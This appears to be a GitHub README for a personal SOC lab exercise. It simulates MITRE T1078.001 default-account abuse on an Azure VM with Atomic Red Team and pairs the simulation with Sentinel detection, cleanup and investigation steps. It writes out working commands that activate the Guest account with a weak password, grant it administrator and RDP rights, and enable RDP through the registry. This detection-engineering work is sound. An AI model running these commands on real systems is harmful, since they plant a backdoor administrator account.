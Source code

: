 # T1078.001 — Valid Accounts: Default Accounts

**MITRE ATT&CK Mapping:**  
- **Tactic:** Initial Access  
- **Technique:** T1078.001 — Valid Accounts: Default Accounts  
- **Link:** <a href="https://attack.mitre.org/techniques/T1078/001/" target="_blank" rel="noopener noreferrer">MITRE ATT&CK T1078.001 ↗️</a>

---

## 🧪 Atomic Red Team Simulation by Me

This test is part of my personal SOC detection engineering and investigation workflow.  
I’m manually simulating a **default account abuse scenario** on an **Azure VM**, writing the detection logic in **Microsoft Sentinel**, and confirming end-to-end incident response capability.

&nbsp;

> **Safety Notice:**  
> All testing and simulation is performed strictly within a controlled lab environment (Azure VM in a Cyber Range) that I fully manage. **Never run these techniques on production systems.**


## 📑 Quick Links

* [SOC Investigation Log & Timeline](./soc-investigation-log.md)

## 🎯 Objective

* Simulate abuse of the default `Guest` account to gain local admin + RDP access.
* Trigger a custom detection rule in Microsoft Sentinel.
* Confirm an incident is created.
* Begin triage and investigation like a real SOC analyst.

---

## 🧰 Tools & Lab Environment

| Tool / Platform                     | Purpose                                             |
| ----------------------------------- | --------------------------------------------------- |
| **Microsoft Sentinel**              | Detection rules + Incident management               |
| **Log Analytics Workspace**         | Ingests Windows logs from VM                        |
| **Microsoft Defender for Endpoint** | Endpoint telemetry (optional, enabled if onboarded) |
| **Azure Virtual Machine**           | Victim host for test (Windows OS)                   |
| **PowerShell / CMD**                | Manual execution of Atomic test                     |
| **Event Viewer**                    | Local log validation                                |
| **KQL (Kusto Query Language)**      | Custom query logic for Sentinel analytics rules      |

> 🧪 The test is run **manually** in a Cyber Range VM I fully control.

---

## ⚙️ Atomic Test Details

### ✅ Test 1 — Enable Guest + RDP + Admin

* **Technique:** T1078.001  
* **Platform:** Windows  
* **Atomic GUID:** `99747561-ed8d-47f2-9c91-1e5fde1ed6e0`

#### Manual Execution:
```cmd
net user guest /active:yes
net user guest Password123!
net localgroup Administrators guest /add
net localgroup "Remote Desktop Users" guest /add
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v AllowTSConnections /t REG_DWORD /d 1 /f
````

---

### ✅ Test 2 — Activate Guest Only

* **Atomic GUID:** `aa6cb8c4-b582-4f8e-b677-37733914abda`

```cmd
net user guest /active:yes
```

---

## 🧼 Cleanup

```cmd
net user guest /active:no
net localgroup Administrators guest /delete
net localgroup "Remote Desktop Users" guest /delete
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v AllowTSConnections /f
```

---

## 🧠 My Detection Workflow

1. Create a **custom Sentinel rule** using KQL to detect:

   * Guest account activation (Event ID 4722)
   * Group membership change (Event ID 4732)
   * Registry changes related to RDP
2. Run the test manually on the victim VM.
3. Monitor Sentinel → confirm **incident is created**.
4. Investigate the alert using full SOC workflow.

---

## 🕵️ SOC Investigation Log

[Jump to Detailed Log & Timeline](./soc-investigation-log.md)

* Review entities: host, user, account, IP
* Check `SecurityEvent` logs in Sentinel
* Look for Defender alerts or RDP telemetry
* Validate Guest was added to `Administrators`
* Look for any follow-up attacker actions
* Document findings

---

## 📍 Forensic Artifacts

| Artifact Type        | Expected Evidence                            |
| -------------------- | -------------------------------------------- |
| Windows Events       | 4722 (enabled account), 4732 (group change)  |
| Registry             | RDP keys modified (AllowTSConnections, etc.) |
| Network Traffic      | Port 3389 activity (if RDP attempted)        |
| Process/Command Logs | `net user`, `net localgroup`, `reg add`      |

---

## ✅ Outcome Checklist

1. [ ] Sentinel rule created
2. [ ] Atomic test run on Azure VM
3. [ ] Incident successfully triggered
4. [ ] Investigation completed
5. [ ] VM cleaned up or reverted

---

## 📚 References

* <a href="https://attack.mitre.org/techniques/T1078/001/" target="_blank" rel="noopener noreferrer">MITRE ATT&CK - T1078.001 ↗️</a>
* <a href="https://github.com/redcanaryco/atomic-red-team" target="_blank" rel="noopener noreferrer">Atomic Red Team - GitHub ↗️</a>
* <a href="https://learn.microsoft.com/en-us/azure/sentinel/" target="_blank" rel="noopener noreferrer">Microsoft Sentinel Documentation ↗️</a>
* <a href="https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/" target="_blank" rel="noopener noreferrer">Microsoft Defender for Endpoint Documentation ↗️</a>

---

## 📓 Detailed Investigation Log & Timeline

> *See [soc-investigation-log.md](./soc-investigation-log.md) in this folder for the full analyst log, timeline, artifacts, screenshots, and triage details for this test.*

---

```

Let me know if you need this for any other documentation or want a boilerplate template!
```
